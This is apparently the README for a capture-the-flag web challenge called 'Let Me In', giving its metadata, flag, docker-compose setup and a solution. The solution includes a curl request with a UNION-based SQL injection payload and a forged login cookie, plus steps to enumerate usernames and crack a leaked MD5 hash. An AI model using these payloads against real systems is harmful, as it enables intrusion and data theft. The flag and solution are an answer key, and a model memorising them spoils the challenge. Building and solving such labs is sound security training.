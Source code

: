| metadata | <> |
|--- | --- |
| Developer Name(s) | Lynkle |
| Best Contact Slack handle / Email address | [redacted] |
| Challenge Category | Web |
| Challenge Tier | 4 |
| Challenge Type | Container |

| Player facing | <> |
|--- | --- |
|Challenge Name | Let Me In |
|Challenge Description | We heard this lame website has some important book keeping records. Find the admin user, break into the application and get the flag. http://web-4 | 
|Challenge Hint 1 | Look very carefully at the authentication process. |
|Challenge Hint 2 | It would be a shame if they didn't escape things huh. |

| Admin Facing | <> |
|--- | --- |
|Challenge Flag| WACTF{let_me_iiiiiiiin} |
|Challenge Vuln| User Enumeration, Client Side Authentication and SQL Injection |
|Docker Usage Idle| 0% CPU / 15~MB RAM |
|Docker Usage Expected Peak| 15% CPU / 50~MB RAM |
---

# docker-compose.yml

```
version: '3'
services:
  web-4:
    container_name: web-4
    build: ./challenge/
    image: registry.capture.tf:5000/wactf0x04/web-1
    ports:
      - 80:80
    deploy:
      resources:
        limits:
          cpus: '0.10'
          memory: 180M
        reservations:
          cpus: '0.05'
          memory: 10M
    cap_drop:
      - NET_RAW
```

# Challenge PoC.py
Make the following curl request I guess?

```
curl 'http://web-4/records/view?filter=admin%27+UNION+ALL+SELECT+NULL%2CNULL%2CNULL%2Cflag%2CNULL%2CNULL%2CNULL%2CNULL+FROM+secrets+--' -b 'securelyLoggedInUser=superadmin'
```

The flag will be in the response.

In all seriousness you should try and authenticate to the application, see that it sends you the password, crack it and then try and login using it.

Now that you are in the application just submit a bad filter value and see the SQL error pop out. Run SQLMap or exploit it manually to win. (I know you will probably run SQLMap it is ok.)

TLDR:
* Bruteforce the admin username
* In the response for the valid username, retrieve the md5 and crack it
* Then discover and exploit sqli
